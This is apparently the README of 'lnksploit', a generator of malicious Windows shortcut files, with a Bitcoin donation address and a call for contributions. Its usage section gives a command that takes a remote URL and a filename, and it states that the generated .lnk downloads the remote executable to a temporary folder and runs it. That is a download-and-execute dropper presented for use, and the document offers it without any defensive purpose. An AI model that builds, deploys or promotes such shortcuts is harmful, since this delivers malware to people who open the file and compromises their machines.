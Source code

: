 # lnksploit
A Windows subsystem shortcut exploit generator

# Donate using Bitcoin!
Donations: bitcoin:12FP1JisjYCsgfteTLMQQMLnVBs65wZD8G

# Usage
open command line and write
```
lnksploit.exe http://domain.com/remotefile.exe localfilename.exe
```

the generated lnk will download the remote file to a temporary folder and execute it

# Contributions
I'm happy for all contributions to this project
